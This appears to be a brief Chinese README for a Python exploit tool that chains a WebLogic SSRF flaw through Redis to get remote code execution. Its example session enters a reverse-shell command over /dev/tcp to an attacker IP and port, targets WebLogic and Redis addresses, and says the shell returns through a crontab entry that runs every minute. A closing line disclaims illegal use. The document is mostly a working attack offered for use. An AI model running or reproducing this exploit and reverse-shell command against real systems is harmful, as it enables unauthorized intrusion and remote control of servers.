 # Weblogic SSRF漏洞RCE

用法：python main.py



请输入你要执行的命令:sh -i >& /dev/tcp/172.29.0.3/2225 0>&1

请输入Weblogic地址:http://127.0.0.1:7001

请输入Redis地址:http://172.29.0.2:6379

执行成功!如果是反弹shell请等待crontab执行



crontab设置的每分钟执行一次，至少一分钟才会回弹shell.

请勿用于非法测试。
